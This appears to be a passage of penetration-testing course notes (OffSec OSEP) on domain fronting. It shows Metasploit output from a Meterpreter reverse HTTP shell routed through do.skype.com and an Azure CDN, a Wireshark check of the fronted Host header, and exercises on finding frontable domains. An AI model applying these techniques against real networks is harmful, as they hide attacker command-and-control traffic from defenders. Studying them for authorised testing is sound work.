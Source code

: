 > Listing 23 - Setting up Meterpreter reverse HTTP shell listener

Metasploit will display an error that it failed to bind to 152.199.19.161 because it's the address of the original domain (do.skype.com), which is not hosted on our machine. However, Metasploit will failover and bind to all local interfaces.

Before we execute our payload, let's start Wireshark so we can inspect the traffic details.

Finally, we'll execute our payload.

```
msf5 exploit(multi/handler) > 
[*] http://do.skype.com:80 handling request from 152.195.142.158; (UUID: mbgovmvr) Staging python payload (53985 bytes) ...
[*] Meterpreter session 3 opened (138.68.99.177:80 -> 152.195.142.158:54524)

msf5 exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > getuid 
Server username: offsec
```

> Listing 24 - Meterpreter reverse HTTP shell with domain fronting

Very Nice. Our shell appears to be working perfectly.

Let's inspect our traffic in Wireshark to make sure the connection worked as expected.

![[OffSec/OSEP/Course/z. images/5ef89c597cec49dc531358a756cb186d_MD5.jpg]]

Figure 43: HTTP domain fronting with do.skype.com

Based on the TCP packets, the shell connected to 152.199.19.161, the IP address of do.skype.com. Let's take a look at the Host request headers with _Follow TCP Stream_.

![[OffSec/OSEP/Course/z. images/5b32795827af8e7257bf4ae1f72a2d23_MD5.jpg]]

Figure 44: HTTP domain fronting with do.skype.com

The HTTP Host headers are also set to offensive-security-azureedge.net. This verifies that our reverse shell worked via domain fronting. Excellent!

In this section, we demonstrated an Azure domain fronting scenario. We set up a CDN, configured our Meterpreter shell with extra parameters to work with domain fronting, and analyzed the packets to view and confirm that our fronting setup worked as expected. Although this was a real-world scenario that we can't replicate in the lab, in the next section we'll show a simplified setup that will allow us to practice these concepts.

#### Exercise

1. Use FindFrontableDomains to locate additional domains that can be used for domain fronting.

#### Extra Mile

Censys is a search engine similar to Shodan, searching Internet-connected devices based on their fingerprint information, like webserver type, certificate details, etc. Use this service to find Azure domain-frontable sites. The following guide[3](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5269-3) will show the necessary steps.
